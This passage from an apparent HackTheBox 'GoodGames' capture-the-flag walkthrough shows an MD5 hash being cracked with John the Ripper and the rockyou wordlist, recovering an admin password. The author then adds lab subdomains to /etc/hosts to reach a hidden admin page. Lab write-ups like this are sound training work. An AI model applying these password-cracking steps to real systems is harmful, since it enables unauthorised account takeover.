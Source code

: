 ```bash
--------------------------------------------------
 HASH: 2b22337f218b2d82dfc3b6f77e7cb8ec

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
...

┌──(root㉿shiro)-[/home/shiro/HackTheBox/GoodGames]
└─# cat hash.txt
2b22337f218b2d82dfc3b6f77e7cb8ec

                                             
┌──(root㉿shiro)-[/home/shiro/HackTheBox/GoodGames]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt -format=Raw-MD5
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
superadministrator (?)     
1g 0:00:00:00 DONE (2022-08-15 15:02) 6.250g/s 21727Kp/s 21727Kc/s 21727KC/s superarely1993..super5dooper
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 
```

Yay~ We found the password `superadministrator`.

At the top right of the admin’s profile page, we can find another hidden login page by clicking on the gear icon.

However, to access this website, we have to add the subdomain to our `/etc/hosts` file.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/GoodGames]
└─# cat /etc/hosts
127.0.0.1	localhost
127.0.1.1	shiro.shiro	shiro
10.10.10.48     mirai.htb
10.10.10.13     cronos.htb ns1.cronos.htb admin.cronos.htb
10.10.10.22	europa.htb www.europacorp.htb admin-portal.europacorp.htb
10.10.11.130	goodgames.htb internal-administration.goodgames.htb

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```
